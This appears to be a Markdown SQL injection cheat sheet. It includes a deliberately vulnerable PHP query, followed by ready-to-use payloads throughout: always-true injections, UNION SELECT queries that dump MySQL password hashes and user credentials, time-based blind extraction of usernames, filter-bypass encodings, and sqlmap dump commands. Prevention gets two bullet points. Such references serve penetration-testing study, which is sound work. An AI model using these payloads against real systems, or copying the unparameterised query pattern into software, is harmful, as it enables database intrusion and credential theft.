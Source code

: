 # SQL INJECTION

SQL Operators and Functions
---------------------------

`UNION` - used to combine the result of two or more SELECT statements with same number of columns and similar data types (selects only distinct values by default - to allow duplicate values, use UNION ALL).  
`SUBSTRING(str, pos, len)` - returns a specified number of characters from a particular position of a given string. str=string; pos=starting position; len=length in characters.
`VERSION()` - returns a string that indicates the MySQL server version.

SQL comments: `/* actual comment text*/`  

MySQL delimiter (comment): `#`
SQL delimiter (comment): `--`

Only MySQL is using `version_comment`.

Vulnerable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

General Tips
------------

Find out if the web app is talking to a data store (i.e. file, web service, database).  
Look for parameter passing and insert single/double quote there - immediately after the parameter value or instead the parameter value.  
Browse the web app, note errors, behaviour.

PHP usually "talks" to MySQL.  
Understand, what tier we're messing with? Web server, app server, database?

Try `parameter?id=(5-2)`instead of 3 - get the same? Might mean that the injection is possible.

* "Always true" scenario:

```
%' OR '0'='0
%' OR 1=1--
"' OR '1'='1';-- " (note the space after the second hyphen)
```

`%` will probably not be equal to anything so will be false
`'0'='0'` - always equal to true

* Figure out how many columns / attributes are there:

`‘ ORDER BY 1#`  
`‘ ORDER BY 2#`  
etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables #`

* Display all the user tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables where table_name like 'user%'#`

* Display all the columns fields in database's user table:

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`

* Display all the columns field contents in the database user table:

`%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`


Blind SQLi
----------

When you put in a tick, you are redirected to a homepage? Suspicious.

```
id=2; waitfor delay '00:00:10'--
id=2; IF (LEN(USER)=1) waitfor delay '00:00:10'--
id=2; IF (LEN(USER)=2) waitfor delay '00:00:10'--
```

etc...

Then, look at ASCII chart and try guessing admin username:

```
id=2; IF (ASCII(lower(substring((USER),1,1)))=97) WAITFOR DELAY '00:00:10'--
id=2; IF (ASCII(lower(substring((USER),1,1)))=98) WAITFOR DELAY '00:00:10'--
```

etc.

Note: sqlmap tool is good for blind sqli.  
These days there's more union-based SQLi.


Circumventing Simple Validation
-------------------------------

If SELECT keyword is being blocked, try:

```
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
```

Bypassing Simple Input Filtering
--------------------------------

Example code:

```
function unsqli($str){
        $str = str_replace("'", "\\'", $str);
        return "'".$str."'";
}
```

Bypass this filtering with `\'`.

SQLMAP
------

`sqlmap -u "URL" --cookie="COOKIE"`

--dbs: list databases  
-D [database]: specify a databases  
--tables: list tables  
-T users: list columns of users table  
-C user, password --dump  


Other Tools
-----------

* Havij
* sqlninja
* BBQSQL
* Metasploit SQLi Module


Prevention Techniques
---------------------

* Input sanitization
* Prepared statements


Resources
---------

* http://seclists.org/pauldotcom/2010/q3/341  
* https://www.notsosecure.com/more-on-true-and-error-blind-sql-injection/  
* https://www.notsosecure.com/exploiting-sql-injections-in-insert-statements/
* http://www.blackhat.com/presentations/bh-usa-06/BH-US-06-Willis.pdf
* [Great introduction to SQLi](https://www.youtube.com/watch?v=P6fLRmeEKKA)
